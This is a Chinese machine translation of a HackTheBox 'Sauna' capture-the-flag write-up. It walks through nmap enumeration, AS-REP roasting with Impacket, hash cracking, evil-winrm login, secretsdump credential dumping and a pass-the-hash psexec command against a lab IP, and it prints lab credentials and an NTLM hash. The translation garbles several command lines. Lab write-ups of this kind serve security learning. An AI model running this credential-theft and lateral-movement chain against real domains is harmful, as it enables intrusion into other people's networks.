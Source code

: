 # HacktheBox 桑拿报道

> 原文：<https://infosecwriteups.com/hackthebox-sauna-write-up-7c1423a37088?source=collection_archive---------0----------------------->

![](img/61a199a7211e73d4103644f405c6500d.png)

让我们开始探索盒子的旅程。这是一个有 20 个点的简单的 windows 框。我们将利用一些工具来提升权限，例如 [EvilWinRm](https://github.com/Hackplayers/evil-winrm) 、 [GetNPUsers](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) 、winPEAS、mimikatz.exe 和 secretdump.py。

# 列举

我们将运行 [nmapAutomator](https://github.com/21y4d/nmapAutomator) 工具，它将覆盖所有类型的基本枚举。

> 。/nma 自动马达 10.10.10.175 全部

结果如下

> 10.10.10.175
> 主机的 Nmap 扫描报告已启动(0.30 秒延迟)。
> 
> 端口状态服务版本
> 53/tcp 开放域？
> | fingerprint-strings:
> | DNSVersionBindReqTCP:
> | version
> | _ bind
> 80/TCP open http Microsoft IIS httpd 10.0
> | http-methods:
> | _ 潜在风险方法:TRACE
> | _ http-server-header:Microsoft-IIS/10.0
> | _ http-title:egotic Bank::Home
> 88/TCP open
> 464/tcp 开放 kpasswd5？
> 593/TCP open ncacn _ HTTP Microsoft Windows RPC over HTTP 1.0
> 636/TCP open TCP wrapped
> 3268/TCP open LDAP Microsoft Windows Active Directory LDAP(Domain:egotistic-bank . local 0，Site:Default-First-Site-Name)
> 3269/TCP open TCP wrapped
> 1 尽管返回数据，但无法识别服务。如果知道服务/版本，请在 https://nmap.org/cgi-bin/submit.cgi?new-service 提交以下指纹:
> SF-port 53-TCP:V = 7.80% I = 7% D = 7/16% Time = 5 F10 BD 89% P = x86 _ 64-PC-Linux-GNU % r(DNSV
> SF:ersionbindrektcp，20，" \ 0 \ x1e \ 0 \ x06 \ x81 \ x04 \ 0 \ x01 \ 0 \ 0 \ 0 \ 0 \ 0 \ 0
> 
> 5985/tcp 打开 http 微软 http API httpd 2.0(SSDP/UPnP)
> | _ http-server-header:微软-HTTPAPI/2.0
> |_http-title:未找到
> 9389/tcp 打开 mc-nmf。NET 消息组帧
> 49667/tcp 打开 msrpc Microsoft Windows RPC
> 49673/TCP 打开 msrpc Microsoft Windows RPC
> 49674/TCP 打开 ncacn _ HTTP Microsoft Windows RPC over HTTP 1.0
> 49675/TCP 打开 msrpc Microsoft Windows RPC
> 49686/TCP 打开 msrpc Microsoft Windows RPC
> 58118/TCP 打开 msrpcOS:Windows；CPE: cpe:/o:microsoft:windows
> 
> 主机脚本结果:
> | _ clock-skew:7h 05 m02s
> | sm B2-security-mode:
> | 2.02:
> | _ 消息签名已启用且需要
> | sm B2-time:
> | date:2020–07–17t 03:57:44
> | _ start _ date:N/A

有一堆端口开放，让我们列出端口，这将有助于利用盒子。端口 80 上运行着 Web 服务器。我们在端口 389 和 3268 上运行 kerberos 服务。我们还得到了 ldap 服务提供者透露的域名——BANK。本地的。

我继续用 enum4linux 枚举，但是没有找到任何用户名。我们甚至试图列举中小型企业，但没有发现有趣的东西。

当我们打开 HTTP 端口时，让我们列举网站。

![](img/6df36eb85a6374e4af4a651e8916df73.png)

访问该网站后，在“关于我们”中发现了一些用户名

![](img/9cfb934136112141e6bd0c8cf81795db.png)

让我们记下用户名的组合类型，这将有助于我们在 ldap 和 kerberos 中进行枚举。下面是我们可以形成 user.txt 的格式。

![](img/5c118c82c753c9a3f3ef3b376d74ac89.png)

得到一些用户名后。我们将使用 Impacket 工具，它有一个 GetNPUsers python 脚本，仅当用户帐户不需要 kerberos 每身份验证时，该脚本才返回 TGT(票证授予票证)。

# 剥削

现在，我们将针对域名运行 GetNPUsers.py，这将为我们提供用户 FSmith 的 TGT。

> cmd:-python 3 getnp users . py EGOTISTICAL-BANK.LOCAL/-users file user . txt-output file TGT . txt-DC-IP 10 . 10 . 10 . 175

![](img/83777bc8edd5eada3d17d15bc1018e08.png)![](img/3c01ba4f611918f08f7f14100912fe90.png)

在 john 使用 rockyou.txt 文件破解哈希之后，我们获得了

> 史密斯:中风 23

![](img/efb98310c844f7f97531cabb0360c8b7.png)

现在我们将使用 evil-winrm 登录。

![](img/d83dc80617e67323794d4282467433b1.png)

作为 FSmith 登录后，我们得到了 user.txt 文件。现在让我们继续后剥削。

![](img/be1a55d5f59117873e9b55acd51f0143.png)

# 后剥削

让我们先列出在场的用户。

![](img/31e2dfc906f288d4b0a2d3ef276f3164.png)

方法是使用“winPEAS.exe”收集信息并获得 svc_loanmgr 的密码，因为我们获得了 DPAPI 主密钥，我们可以使用 mimikatz 进行攻击。

![](img/014eec8246c2a38d7bf3bdce3a1a3629.png)

然后执行 winPEAS.exe 文件。以下是一些有趣的发现。

![](img/8c8bf8d352270dd8b63813619e184f8d.png)

现在我们已经得到了 svc_loanmgr 用户的默认密码。

的结果。/winPEAS.exe 我们获得了 DPAPI 主密钥，我们可以使用 mimikatz 攻击它。

让我们通过 [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) 来转储散列

> cmd:-python 3 secrets dump . py egotistic-BANK/SVC-loan mgr @ 10 . 10 . 10 . 175

![](img/8ed304f0a8853dee0e72a80506a589f7.png)

现在让我们使用管理员散列通过 [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) 登录

> cmd:-python 3 psexec . py-hashes aad3b 435 b 51404 eeaad3b 435 b 51404 ee:d 9485863 C1 e9 e 05851 aa 40 CB B4 ab 9 dff Administrator @ 10 . 10 . 10 . 175

![](img/ab60c4a3b6444197d3f31c6ddcf202cf.png)

答对了，我们已经成功地把盒子固定住了。

> 感谢阅读。

![](img/bb16dd41285ad610df2224c08caa4834.png)

[点击这里](https://www.hackthebox.eu/profile/196419)

![](img/69bbd45abad0b6e8c0a585210797722f.png)

[点击这里](http://buymeacoff.ee/Viston)

[](https://github.com/SecureAuthCorp/impacket) [## SecureAuthCorp/impacket

### Impacket 是用于处理网络协议的 Python 类的集合。Impacket 专注于提供…

github.com](https://github.com/SecureAuthCorp/impacket) [](https://github.com/Hackplayers/evil-winrm) [## 黑客玩家/邪恶-winrm

### 用于黑客攻击/测试的终极 WinRM 外壳这个外壳是用于黑客攻击/测试的终极 WinRM 外壳。WinRM…

github.com](https://github.com/Hackplayers/evil-winrm) [](https://0xprashant.github.io/posts/hackthebox-sauna/) [## Hackthebox 桑拿记录

### 托管在端口 80 上的网站在“关于我们”上有一些用户名，在名称上做了一些变化，并做了…

0xprashant.github.io](https://0xprashant.github.io/posts/hackthebox-sauna/)